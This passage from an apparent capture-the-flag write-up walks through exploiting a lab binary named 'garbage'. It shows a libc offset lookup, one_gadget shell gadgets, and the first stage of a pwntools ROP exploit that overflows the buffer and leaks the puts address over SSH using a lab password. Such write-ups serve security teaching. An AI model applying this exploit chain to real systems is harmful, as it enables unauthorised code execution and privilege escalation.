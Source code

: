 #### puts Offset

Since I’m leaking `puts`, I need that offset to the start of libc:

```

margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
   422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5

```

Now I can find the offset to `puts` in this libc. I can subtract this value from any leak to get the current libc base address.

### One Gadget

I’ve been meaning to play with [one\_gadget](https://github.com/david942j/one_gadget), so I gave it a run. The install was easy with `gem install one_gadget`. Then I just ran it on the libc from target:

```

root@kali:/opt/libc-database# one_gadget libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

It gave three possible options of addresses to jump to which would run `sh`.

In testing, the first one didn’t work, but the second one did.

### Low Priv Shell

I put all that together and get this:

```

#!/usr/bin/env python

from pwn import *

#context.log_level = "DEBUG"
sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
garbage = sshConn.process('garbage')

junk     = "A" * 136      # offset from pattern
pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 

stage_1 = junk + pop_rdi + puts_got + puts_plt + main
garbage.sendline(stage_1)
garbage.recvuntil("access denied.\n")
leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
log.success("Leaked puts address: 0x%x" % leaked_puts)
garbage.recvuntil("Enter access password: ")

```